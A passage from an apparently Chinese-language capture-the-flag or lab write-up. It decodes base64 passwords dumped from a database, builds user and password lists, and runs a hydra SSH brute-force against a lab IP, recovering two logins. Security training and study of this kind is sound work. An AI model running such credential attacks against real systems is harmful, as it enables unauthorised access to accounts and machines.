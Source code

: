 ```shell
+------+---------+--------------------------+
|    1 |       2 | c3VSSkFkR3dMcDhkeTNyRg== |
|    2 |       4 | N1p3VjRxdGc0MmNtVVhHWA== |
|    3 |       1 | WDdNUWtQM1cyOWZld0hkQw== |
|    4 |       3 | REpjZVZ5OThXMjhZN3dMZw== |
|    5 |       5 | Y3FObkJXQ0J5UzJEdUpTeQ== |
+------+---------+--------------------------+
5 rows in set (0.001 sec)
```

在user表中存在用户名，在login表中存在密码。

## 3. Get more user info

上面可以获取数据库中的用户名和密码，我们可以尝试用hydra去爆破密码。将用户名和密码分别保存到user.txt和password.txt文件中：

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ ls
password.txt  user.txt

┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ cat user.txt
smith
lucas
travis
dexter
meyer

┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ cat password.txt
suRJAdGwLp8dy3rF
7ZwV4qtg42cmUXGX
X7MQkP3W29fewHdC
DJceVy98W28Y7wLg
cqNnBWCByS2DuJSy
```

这里需要注意下password是base64解码之后的，user是全小写。然后跑hydra，服务是ssh，因为web的登录口是邮箱和密码登录，很明显不是用户名和密码，那么久只能测试ssh服务。

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ hydra -L user.txt -P password.txt 172.16.86.143 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-08 02:47:11
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 30 login tries (l:5/p:6), ~2 tries per task
[DATA] attacking ssh://172.16.86.143:22/
[22][ssh] host: 172.16.86.143   login: dexter   password: 7ZwV4qtg42cmUXGX
[22][ssh] host: 172.16.86.143   login: travis   password: DJceVy98W28Y7wLg
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-11-08 02:47:18
```

